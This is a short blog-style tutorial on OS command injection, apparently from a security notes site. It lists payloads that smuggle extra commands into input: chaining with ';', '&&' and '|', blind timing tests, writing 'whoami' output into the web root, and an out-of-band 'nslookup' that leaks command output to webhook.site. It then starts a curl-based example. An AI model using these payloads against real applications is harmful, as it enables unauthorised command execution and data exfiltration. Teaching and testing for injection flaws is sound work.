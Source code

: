 ```yaml
---
layout: post
title: Command Injection
subtitle: Application taking input from the user. Then passing the input to the function which executes as the code
date: 2025-07-31 09:43
author: Ren Sie
comments: true
category: injection
cover-img: /assets/img/Post_Cover.png
thumbnail-img: /assets/img/githubpost/Commandi_thumb.png
share-img: /assets/img/Post_Cover.png
---
```


### Injection Type: 
1. Basic
2. Blind
3. Out of Band

{: .box-note}
**Note:** 🚨 eval() is Evil. <br> eval() is an executed function that process any data that pass to it.

### Exploitation Syntax

1. Basic command chaining  
   `; ls -la`
2. Using logic operators  
   `&& ls -la`
3. Commenting out the rest of a command  
   `; ls -la #`
4. Using a pipe for command chaining  
   `| ls -la`
5. Testing for blind injection  
   `; sleep 10  
   ; ping -c 10 127.0.0.1  
   & whoami > /var/www/html/whoami.txt &`
6. Out-of-band testing  
   `& nslookup webhook.site/<id>?`whoami` &`

### Checklist
<details markdown="1"><summary>Click me to expand checklist</summary></details>

## Example-1 Command Injection

### Escaping Function
Command syntax: curl -I -s -L `<User_Input>` | grep "HTTP/"
1. Try to enter legitimated input, we get:
   ~~~
   Input = https://google.com
   ~~~
   > User command: curl -I -s -L `https://google.com` | grep "HTTP/"  
   > Result: HTTP/2 301 HTTP/2 200  
   